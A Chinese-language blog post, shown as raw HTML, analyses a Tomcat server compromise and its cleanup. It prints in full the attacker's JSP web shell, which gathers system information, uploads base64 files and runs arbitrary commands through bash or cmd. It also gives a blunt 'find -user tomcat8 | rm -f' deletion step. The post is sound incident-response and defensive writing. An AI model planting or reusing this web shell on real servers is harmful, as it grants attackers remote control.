


<!DOCTYPE html>
<html lang class="loading">
<head><meta name="generator" content="Hexo 3.8.0">
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <title>一次服务器被入侵的分析和清理 - Linco</title>
    <meta name="apple-mobile-web-app-capable" content="yes">
    <meta name="apple-mobile-web-app-status-bar-style" content="black-translucent">
    <meta name="google" content="notranslate">
    <meta name="keywords" content="Linco, Blog,"> 
    <meta name="description" content="前些天接到阿里云凌晨四点多发来的告警, 公司名下的一台服务器(外网测试服)正在访问一个危险的地址, 已经被拦截

虽然黑客的攻击过程受阻, 但不确定机器是否被攻占, 黑客完全可以切换到未被标记危险的,"> 
    <meta name="author" content="Linco"> 
    <link rel="alternative" href="atom.xml" title="Linco" type="application/atom+xml"> 
    <link rel="icon" href="/img/icon.png"> 
    <link rel="stylesheet" href="//cdn.jsdelivr.net/npm/gitalk@1/dist/gitalk.css">
    <link rel="stylesheet" href="/css/diaspora.css">

</head>
</html>
<body class="loading">
    <span id="config-title" style="display:none">Linco</span>
    <div id="loader"></div>
    <div id="single">
    <div id="top" style="display: block;">
    <div class="bar" style="width: 0;"></div>
    <a class="icon-home image-icon" href="javascript:;" data-url></a>
    <div title="播放/暂停" class="icon-play"></div>
    <h3 class="subtitle">一次服务器被入侵的分析和清理</h3>
    <div class="social">
        <!--<div class="like-icon">-->
            <!--<a href="javascript:;" class="likeThis active"><span class="icon-like"></span><span class="count">76</span></a>-->
        <!--</div>-->
        <div>
            <div class="share">
                <a title="获取二维码" class="icon-scan" href="javascript:;"></a>
            </div>
            <div id="qr"></div>
        </div>
    </div>
    <div class="scrollbar"></div>
</div>

    <div class="section">
        <div class="article">
    <div class="main">
        <h1 class="title">一次服务器被入侵的分析和清理</h1>
        <div class="stuff">
            <span>八月 04, 2020</span>
            
  <ul class="post-tags-list"><li class="post-tags-list-item"><a class="post-tags-list-link" href="/tags/碎碎念/">碎碎念</a></li></ul>


        </div>
        <div class="content markdown">
            <p>前些天接到阿里云凌晨四点多发来的告警, 公司名下的一台服务器(外网测试服)正在访问一个危险的地址, 已经被拦截</p>
<p></p>
<p>虽然黑客的攻击过程受阻, 但不确定机器是否被攻占, 黑客完全可以切换到未被标记危险的下载源继续攻击, 或在未来通过已经打开的后门实施二次攻击</p>
<p>​    </p>
<p><strong>所以, 需要对攻击行为进行分析, 确认主机状态是否安全, 修补漏洞, 清理后门</strong></p>
<p>​    </p>
<p><strong>第一步, 分析阿里云告警</strong></p>
<p>从进程脚本可以看到, 暴露的攻击内容是一个shell命令, 通过<code>wget</code>, <code>curl</code>, <code>python request</code>三种方式尝试从远程下载一个shell脚本并执行. 值得注意的是, 黑客这里将三个下载方式指向同一下载地址, 意外地被一网打尽, 如果事先将其中一个下载命令换成另外的地址, 这一步攻击可能已经成功了.</p>
<p>​    </p>
<p>执行的进程ID18417不重要, 总之被阿里云盾拦截了, 脚本执行结束进程也随之终止, 黑客有意在攻击命令后面加了输出重定向, 进程的结果没有记录</p>
<p>​    </p>
<p>父进程ID18415是黑客调起攻击命令的入口, 黑客能发起攻击的shell命令是因为已经劫持下了父进程, 通过<code>ps -ef</code>查出这是部署在<code>tomcat</code>的服务, 值得留意的是服务id18415和执行攻击命令的子进程id18417几乎相邻</p>
<p>​    </p>
<p>报告中的用户名<code>tomcat8</code>也印证了黑客攻击的入口在Tomcat, 并且tomcat被攻陷</p>
<p>​    </p>
<p>​    </p>
<p><strong>第二步, 追查tomcat服务</strong></p>
<p>​    </p>
<p>我部署的Java服务都用SpringBoot运行, 没有使用系统Tomcat. 查询</p>
<p><code>whereis tomcat8</code> 找到本机的Tomcat安装地址<code>/usr/share/tomcat8</code> 和 配置地址<code>/etc/tomcat8</code></p>
<p>​    </p>
<p><code>cat /etc/tomcat8/server.xml</code> 得知部署路径为默认的<code>webapps</code></p>
<p>全局查找<code>webapps</code>, 得到</p>
<p></p>
<p>可以确定web服务部署在<code>/var/lib/tomcat8/webapps</code>目录下</p>
<p>​    </p>
<p>进入目录, 看到<code>ROOT</code>和<code>admin_manager</code>两个文件夹</p>
<p></p>
<p>(图中的admin_manager)已被清理</p>
<p>​    </p>
<p>ROOT服务是tomcat安装后自带的一个说明服务, 列举里面的文件后确认没有问题</p>
<p>admin_manager服务是一个未知服务, 目录访问时间为 <code>jul 26 04:50</code> ,和攻击事件发生时间吻合</p>
<p>​    </p>
<p>另外,  tomcat8安装时间为6月28日, 翻聊天记录确认了是我给合作方配置服务器root权限的时间…(WTM)</p>
<p>​    </p>
<p></p>
<p>​    </p>
<p>检查<code>admin_manager</code>, 里面核心是一个jsp文件</p>
<figure class="highlight jsp"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br></pre></td><td class="code"><pre><span class="line">&lt;!-- 危险脚本, 切勿运行 --&gt;</span><br><span class="line">&lt;%@ page <span class="keyword">import</span>=<span class="string">"java.util.*,java.io.*,java.net.*"</span> pageEncoding=<span class="string">"UTF-8"</span>%&gt;&lt;%!</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Base64Encrypt</span> </span>&#123;</span><br><span class="line">	String CODES = <span class="string">"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="</span>;</span><br><span class="line"></span><br><span class="line">	<span class="keyword">byte</span>[] Base64Decode(String input) &#123;</span><br><span class="line">		<span class="keyword">byte</span> decoded[] = <span class="keyword">new</span> <span class="keyword">byte</span>[((input.length()*<span class="number">3</span>)/<span class="number">4</span>) - (input.indexOf(<span class="string">'='</span>) &gt; <span class="number">0</span> ? (input.length() - input.indexOf(<span class="string">'='</span>)) : <span class="number">0</span>)];</span><br><span class="line">		<span class="keyword">char</span>[] inChars = input.toCharArray();</span><br><span class="line">		<span class="keyword">int</span> j = <span class="number">0</span>;</span><br><span class="line">		<span class="keyword">int</span> b[] = <span class="keyword">new</span> <span class="keyword">int</span>[<span class="number">4</span>];</span><br><span class="line">		<span class="keyword">for</span> (<span class="keyword">int</span> i=<span class="number">0</span>; i&lt;inChars.length; i+=<span class="number">4</span>) &#123;</span><br><span class="line">			b[<span class="number">0</span>] = CODES.indexOf(inChars[i]);</span><br><span class="line">			b[<span class="number">1</span>] = CODES.indexOf(inChars[i+<span class="number">1</span>]);</span><br><span class="line">			b[<span class="number">2</span>] = CODES.indexOf(inChars[i+<span class="number">2</span>]);</span><br><span class="line">			b[<span class="number">3</span>] = CODES.indexOf(inChars[i+<span class="number">3</span>]);</span><br><span class="line">			decoded[j++] = (<span class="keyword">byte</span>) ((b[<span class="number">0</span>] &lt;&lt; <span class="number">2</span>) | (b[<span class="number">1</span>] &gt;&gt; <span class="number">4</span>));</span><br><span class="line">				<span class="keyword">if</span> (b[<span class="number">2</span>] &lt; <span class="number">64</span>) &#123;</span><br><span class="line">					decoded[j++] = (<span class="keyword">byte</span>) ((b[<span class="number">1</span>] &lt;&lt; <span class="number">4</span>) | (b[<span class="number">2</span>] &gt;&gt; <span class="number">2</span>));</span><br><span class="line">					<span class="keyword">if</span> (b[<span class="number">3</span>] &lt; <span class="number">64</span>) &#123;</span><br><span class="line">						decoded[j++] = (<span class="keyword">byte</span>) ((b[<span class="number">2</span>] &lt;&lt; <span class="number">6</span>) | b[<span class="number">3</span>]);</span><br><span class="line">				&#125;</span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line">		<span class="keyword">return</span> decoded;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="function">String <span class="title">Base64Encode</span><span class="params">(<span class="keyword">byte</span>[] in)</span></span></span><br><span class="line"><span class="function">	</span>&#123;</span><br><span class="line">		StringBuilder out = <span class="keyword">new</span> StringBuilder((in.length*<span class="number">4</span>)/<span class="number">3</span>);</span><br><span class="line">		<span class="keyword">int</span> b;</span><br><span class="line">		<span class="keyword">for</span> (<span class="keyword">int</span> i=<span class="number">0</span>; i&lt;in.length; i+=<span class="number">3</span>) &#123;</span><br><span class="line">			b = (in[i] &amp; <span class="number">0xFC</span>) &gt;&gt; <span class="number">2</span>;</span><br><span class="line">			out.append(CODES.charAt(b));</span><br><span class="line">			b = (in[i] &amp; <span class="number">0x03</span>) &lt;&lt; <span class="number">4</span>;</span><br><span class="line">			<span class="keyword">if</span> (i+<span class="number">1</span> &lt; in.length) &#123;</span><br><span class="line">				b |= (in[i+<span class="number">1</span>] &amp; <span class="number">0xF0</span>) &gt;&gt; <span class="number">4</span>;</span><br><span class="line">				out.append(CODES.charAt(b));</span><br><span class="line">				b = (in[i+<span class="number">1</span>] &amp; <span class="number">0x0F</span>) &lt;&lt; <span class="number">2</span>;</span><br><span class="line">				<span class="keyword">if</span> (i+<span class="number">2</span> &lt; in.length) &#123;</span><br><span class="line">					b |= (in[i+<span class="number">2</span>] &amp; <span class="number">0xC0</span>) &gt;&gt; <span class="number">6</span>;</span><br><span class="line">					out.append(CODES.charAt(b));</span><br><span class="line">					b = in[i+<span class="number">2</span>] &amp; <span class="number">0x3F</span>;</span><br><span class="line">					out.append(CODES.charAt(b));</span><br><span class="line">				&#125; <span class="keyword">else</span> &#123;</span><br><span class="line">					out.append(CODES.charAt(b));</span><br><span class="line">					out.append(<span class="string">'='</span>);</span><br><span class="line">				&#125;</span><br><span class="line">			&#125; <span class="keyword">else</span> &#123;</span><br><span class="line">				out.append(CODES.charAt(b));</span><br><span class="line">				out.append(<span class="string">"=="</span>);</span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line">		<span class="keyword">return</span> out.toString();</span><br><span class="line">	&#125;</span><br><span class="line">&#125;</span><br><span class="line">%&gt;&lt;% </span><br><span class="line">String Action = request.getParameter(<span class="string">"act"</span>);</span><br><span class="line">String Parameter1 = request.getParameter(<span class="string">"p1"</span>);</span><br><span class="line">String Parameter2 = request.getParameter(<span class="string">"p2"</span>);</span><br><span class="line"><span class="comment">//String CurrentDir = request.getRealPath("/");</span></span><br><span class="line"><span class="comment">//String CurrentDir = application.getRealPath("/");</span></span><br><span class="line">String CurrentDir = request.getSession().getServletContext().getRealPath(<span class="string">"/"</span>);</span><br><span class="line"><span class="keyword">if</span> (Action != <span class="keyword">null</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="keyword">if</span> (Action.equals(<span class="string">"SI"</span>))</span><br><span class="line">	&#123;</span><br><span class="line">		<span class="comment">// SysInfo</span></span><br><span class="line">		String PcName = System.getenv(<span class="string">"COMPUTERNAME"</span>);</span><br><span class="line">		<span class="keyword">if</span> (PcName==<span class="keyword">null</span>) PcName = System.getenv(<span class="string">"HOSTNAME"</span>);</span><br><span class="line">		<span class="keyword">if</span> (PcName==<span class="keyword">null</span>) &#123;</span><br><span class="line">			<span class="keyword">try</span> &#123;</span><br><span class="line">				PcName = InetAddress.getLocalHost().getHostName();</span><br><span class="line">			&#125; <span class="keyword">catch</span> (UnknownHostException e) &#123;</span><br><span class="line">				<span class="comment">//e.printStackTrace();</span></span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line">		<span class="keyword">if</span> (PcName==<span class="keyword">null</span>) &#123;</span><br><span class="line">			File f = <span class="keyword">new</span> File(<span class="string">"/etc/hostname"</span>);</span><br><span class="line">			<span class="keyword">if</span> (f.exists()) &#123;</span><br><span class="line">				BufferedReader br=<span class="keyword">new</span> BufferedReader(<span class="keyword">new</span> InputStreamReader(<span class="keyword">new</span> FileInputStream(f)));</span><br><span class="line">				PcName=br.readLine();</span><br><span class="line">				br.close();</span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line"></span><br><span class="line">		String SysInfo = <span class="string">"Hello, Peppa!|"</span> + System.getProperty(<span class="string">"os.name"</span>) +<span class="string">" "</span>+ System.getProperty(<span class="string">"os.version"</span>) +<span class="string">" "</span>+ System.getProperty(<span class="string">"os.arch"</span>) +<span class="string">" + "</span>+ PcName +<span class="string">":"</span>+ System.getProperty(<span class="string">"user.name"</span>) +<span class="string">" + "</span>+ request.getRealPath(request.getServletPath())+<span class="string">"|"</span>;</span><br><span class="line">		out.print(SysInfo);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span> <span class="keyword">if</span> (Action.equals(<span class="string">"UF"</span>))</span><br><span class="line">	&#123;</span><br><span class="line">		<span class="comment">// UpFile</span></span><br><span class="line">		<span class="keyword">if</span> (Parameter1!=<span class="keyword">null</span> &amp;&amp; Parameter2!=<span class="keyword">null</span>)</span><br><span class="line">		&#123;</span><br><span class="line">			<span class="keyword">byte</span>[] Binary = <span class="keyword">new</span> Base64Encrypt().Base64Decode(Parameter2);</span><br><span class="line">			FileOutputStream fos = <span class="keyword">new</span> FileOutputStream(CurrentDir+Parameter1);</span><br><span class="line">			<span class="keyword">if</span> (fos != <span class="keyword">null</span>)</span><br><span class="line">			&#123;</span><br><span class="line">				fos.write(Binary);</span><br><span class="line">				fos.close();</span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span> <span class="keyword">if</span> (Action.equals(<span class="string">"SH"</span>) &amp;&amp; Parameter1!=<span class="keyword">null</span>)</span><br><span class="line">	&#123;</span><br><span class="line">		<span class="comment">// Shell</span></span><br><span class="line">		<span class="comment">//response.setContentType("text/html");</span></span><br><span class="line">		out.println(<span class="string">"&lt;Pre&gt;"</span>);</span><br><span class="line"></span><br><span class="line">		String Command = Parameter1;</span><br><span class="line">		<span class="keyword">if</span> (Parameter2!=<span class="keyword">null</span> &amp;&amp; Parameter2.equals(<span class="string">"True"</span>))</span><br><span class="line">		&#123;</span><br><span class="line">			<span class="keyword">byte</span>[] Binary = <span class="keyword">new</span> Base64Encrypt().Base64Decode(Parameter1);</span><br><span class="line">			Command = <span class="keyword">new</span> String(Binary);</span><br><span class="line">		&#125;</span><br><span class="line">		out.println(<span class="string">"&gt;"</span>+Command);</span><br><span class="line">		Command += <span class="string">" 2&gt;&amp;1"</span>;</span><br><span class="line"></span><br><span class="line">		<span class="keyword">try</span> &#123;</span><br><span class="line">			<span class="keyword">boolean</span> IsWin = <span class="keyword">true</span>;</span><br><span class="line">			String[] CmdLine = <span class="keyword">new</span> String[]&#123;<span class="string">"cmd.exe"</span>,<span class="string">"/c"</span>,Command&#125;;</span><br><span class="line"></span><br><span class="line">			<span class="keyword">if</span> (System.getProperty(<span class="string">"file.separator"</span>).equals(<span class="string">"/"</span>)) &#123;</span><br><span class="line">				IsWin = <span class="keyword">false</span>;</span><br><span class="line">				CmdLine = <span class="keyword">new</span> String[]&#123;<span class="string">"/bin/bash"</span>,<span class="string">"-c"</span>,Command&#125;;</span><br><span class="line">			&#125;</span><br><span class="line"></span><br><span class="line">			File WorkDir = <span class="keyword">new</span> File(CurrentDir);</span><br><span class="line"></span><br><span class="line">			Process p = Runtime.getRuntime().exec(CmdLine, <span class="keyword">null</span>, WorkDir);</span><br><span class="line"></span><br><span class="line">			BufferedReader br = <span class="keyword">new</span> BufferedReader(<span class="keyword">new</span> InputStreamReader(p.getInputStream()));</span><br><span class="line">			String d = br.readLine();</span><br><span class="line">			<span class="keyword">while</span> (d != <span class="keyword">null</span>)</span><br><span class="line">			&#123;</span><br><span class="line">				out.println(d);</span><br><span class="line">				d = br.readLine();</span><br><span class="line">			&#125;</span><br><span class="line">		&#125;</span><br><span class="line">		<span class="keyword">catch</span> (Exception e)</span><br><span class="line">		&#123;</span><br><span class="line">			out.print(<span class="string">"[-] Exception: "</span>+e.toString());</span><br><span class="line">		&#125;</span><br><span class="line">	&#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>​    </p>
<p>这个脚本开启了一个web服务, 接收传入的加密命令, 解码后通过 <code>bash</code> 运行, 加密的原因可能是恶意命令在传输过程容易被拦截</p>
<p>​    </p>
<p>根据代码功能可以得知, 这就是发起被拦截操作的来源, 黑客的攻击在这里开始受阻</p>
<p>​    </p>
<p><strong>继续分析tomcat, 判断攻击过程</strong></p>
<p>还是查看 <code>/etc/tomcat8/server.xml</code>, 找到本机Tomcat日志地址<code>/var/log/tomcat8</code></p>
<p>     </p>
<p>输出一下当天的日志</p>
<p><code>cat catalina.2020-07-26.log</code></p>
<p> </p>
<p>当天tomcat发生了一次项目部署, 在黑客入侵的时间部署了<code>admin_manager</code>服务</p>
<p>​    </p>
<p>再看看访问日志</p>
<p><code>cat localhost_access_log.2020-07-26.txt</code></p>
<p></p>
<p>以及前一天的日志</p>
<p></p>
<p>从请求记录看, 黑客在前一天通过脚本大量请求各种API地址, 确定后台部署的类型, 次日针对类型进行攻击. </p>
<p>​    </p>
<p>在7月26日凌晨, 通过某个jsp运行cgi漏洞成功加载恶意代码到tomcat进程中, 后通过web接口上传恶意服务<code>admin_manager.war</code> 到tomcat的部署目录.  在<code>admin_manager</code>部署运行后, 又试图通过网络接口执行命令, 最终被阻止</p>
<p>​    </p>
<p>​    </p>
<p><strong>第三步, 判断系统感染程度, 清理残余</strong></p>
<p>​    </p>
<p>理清了攻击的主要过程, 还需要判断系统受损的程度, 考虑清理病毒修补漏洞或是重新安装系统</p>
<p>现在要解决两个问题:</p>
<ul>
<li>直到拦截前, 系统的哪些进程和文件受影响, 有没有后门植入</li>
<li>攻击受到限制后, 黑客有没有采取手段继续攻击</li>
</ul>
<p>​    </p>
<p>分析第一点, <strong>系统被攻击的文件有那些</strong></p>
<p><code>service tomcat8 status</code> 查看服务运行状态信息, 可以看到运行进程用户名为<code>tomcat8</code></p>
<p>符合阿里警告的用户名, 这是一个很大的利好消息</p>
<p> </p>
<p>黑客攻陷的tomcat只以普通用户的账户运行, 即使黑客夺得了tomcat的控制权, 在实现提权之前也无法访问系统核心文件.</p>
<p>​    </p>
<p>而Linux提权漏洞稀少, 难以突破, 基于攻击者尝试通过tomcat8账户运行脚本的客观事件, 我们有理由断定黑客直到被拦截前未在本台服务器上成功提权</p>
<p>​    </p>
<p>那么受影响的文件和内存数据都在tomcat8用户的权限范围内</p>
<p>​    </p>
<p>接下来考虑第二个问题: <strong>黑客有没有采取手段继续攻击</strong></p>
<p>多方面的信息表明: <strong>没有</strong></p>
<p>​    </p>
<ul>
<li>攻击事件发生的时间是周末凌晨4:50, 是深度休息时间</li>
<li>日志显示的操作频率超过人力操作速度, 为脚本批量操作</li>
<li>受攻击的服务器为测试服务器, 无重要价值数据, 疑似受到非指向的攻击</li>
<li>发起攻击多台的机器IP反查为多个无关行业的企业, 证明攻击的广泛和随机</li>
<li>受拦截的服务器IP被列为危险地址, 表明近期有大量对外攻击的历史, 再次证实攻击是脚本非指向的行为</li>
<li>日志呈现的攻击记录到受拦截后终止, 如果攻击被拦截后黑客手动介入, 至少再次发起请求重现出错现场或查询后门服务的状态. 而实际上自攻击被拦截后在无访问日志的记录 – – 如果是黑客通过后续入侵, 把系统攻陷了, 之后删除攻击日志呢? 结论是几乎不存在这个可能, 因为被拦截后的访问和拦截前的访问在同个文件, 黑客如果意图删除攻击日志, 不可能刻意保留旧攻击记录的攻击过程</li>
</ul>
<h4 id><a href="#" class="headerlink" title=" "></a> </h4><p><strong>最后的采取的措施如下:</strong> </p>
<ul>
<li><p>[x] ​    由tomcat运行目录的服务列表得知, tomcat 服务未使用, 直接卸载</p>
</li>
<li><p>[x] ​    在安全组封堵热门的 8080 端限</p>
</li>
<li><p>[x] ​    通过<code>find -user tomcat8 | rm -f</code> 列举系统中<code>owner</code>为 tomcat8 的文件, 全部清理</p>
<p></p>
</li>
<li><p>[x] ​    <code>ps -ef |grep tomcat8</code> 找到 tomcat8 账户运行的进程, 这些都可能受感染, 全部 kill</p>
</li>
<li><p>[x]        最后, 回收第三方账户的 root 权限</p>
</li>
</ul>
<p>​    </p>
<p>鉴于入侵者没有成功提权, 系统留下的后门只有<code>admin_manager.war</code>和相应部署文件, 在结束进程和清理文件后就干净了</p>
<p>​    </p>
<p>​    </p>
<h5 id="这是我第一次遇到管理的服务器受到攻击-总结一下想法"><a href="#这是我第一次遇到管理的服务器受到攻击-总结一下想法" class="headerlink" title="这是我第一次遇到管理的服务器受到攻击, 总结一下想法"></a>这是我第一次遇到管理的服务器受到攻击, 总结一下想法</h5><p>​    </p>
<ol>
<li>阿里云盾是个好东西</li>
<li>每个服务都要用最小权限的账户独立运行, linux内核是很坚固的, 但程序不是</li>
<li>不要轻易给其他人配root权限,使用完及时收回</li>
<li>热门端口尽量关闭, 尽可能使用非默认端口运行服务</li>
<li>Tomcat7, 8存在正在被利用的漏洞, 内置tomcat的 SpringBoot可能也受影响, 考虑使用Jetty代替</li>
</ol>

            <!--[if lt IE 9]><script>document.createElement('audio');</script><![endif]-->
            <audio id="audio" loop="1" preload="auto" controls="controls" data-autoplay="true">
                <source type="audio/mpeg" src="/music/岁月神偷钢琴.mp3">
            </audio>
            
        </div>
        
    <div id="gitalk-container" class="comment link" data-ae="false" data-ci="978518cc439cd352dd0b" data-cs="2d89825e7db6df72d065714d6b4ac1ce1829b14e" data-r="LincoXiaoQ.github.io" data-o="LincoXiaoQ" data-a="LincoXiaoQ" data-d="false">查看评论</div>


    </div>
    
</div>


    </div>
</div>
</body>
<script src="//cdn.jsdelivr.net/npm/gitalk@1/dist/gitalk.min.js"></script>
<script src="//lib.baomitu.com/jquery/1.8.3/jquery.min.js"></script>
<script src="/js/plugin.js"></script>
<script src="/js/diaspora.js"></script>
<link rel="stylesheet" href="/photoswipe/photoswipe.css">
<link rel="stylesheet" href="/photoswipe/default-skin/default-skin.css">
<script src="/photoswipe/photoswipe.min.js"></script>
<script src="/photoswipe/photoswipe-ui-default.min.js"></script>

<!-- Root element of PhotoSwipe. Must have class pswp. -->
<div class="pswp" tabindex="-1" role="dialog" aria-hidden="true">
    <!-- Background of PhotoSwipe. 
         It's a separate element as animating opacity is faster than rgba(). -->
    <div class="pswp__bg"></div>
    <!-- Slides wrapper with overflow:hidden. -->
    <div class="pswp__scroll-wrap">
        <!-- Container that holds slides. 
            PhotoSwipe keeps only 3 of them in the DOM to save memory.
            Don't modify these 3 pswp__item elements, data is added later on. -->
        <div class="pswp__container">
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
        </div>
        <!-- Default (PhotoSwipeUI_Default) interface on top of sliding area. Can be changed. -->
        <div class="pswp__ui pswp__ui--hidden">
            <div class="pswp__top-bar">
                <!--  Controls are self-explanatory. Order can be changed. -->
                <div class="pswp__counter"></div>
                <button class="pswp__button pswp__button--close" title="Close (Esc)"></button>
                <button class="pswp__button pswp__button--share" title="Share"></button>
                <button class="pswp__button pswp__button--fs" title="Toggle fullscreen"></button>
                <button class="pswp__button pswp__button--zoom" title="Zoom in/out"></button>
                <!-- Preloader demo http://codepen.io/dimsemenov/pen/yyBWoR -->
                <!-- element will get class pswp__preloader--active when preloader is running -->
                <div class="pswp__preloader">
                    <div class="pswp__preloader__icn">
                      <div class="pswp__preloader__cut">
                        <div class="pswp__preloader__donut"></div>
                      </div>
                    </div>
                </div>
            </div>
            <div class="pswp__share-modal pswp__share-modal--hidden pswp__single-tap">
                <div class="pswp__share-tooltip"></div> 
            </div>
            <button class="pswp__button pswp__button--arrow--left" title="Previous (arrow left)">
            </button>
            <button class="pswp__button pswp__button--arrow--right" title="Next (arrow right)">
            </button>
            <div class="pswp__caption">
                <div class="pswp__caption__center"></div>
            </div>
        </div>
    </div>
</div>


</html>
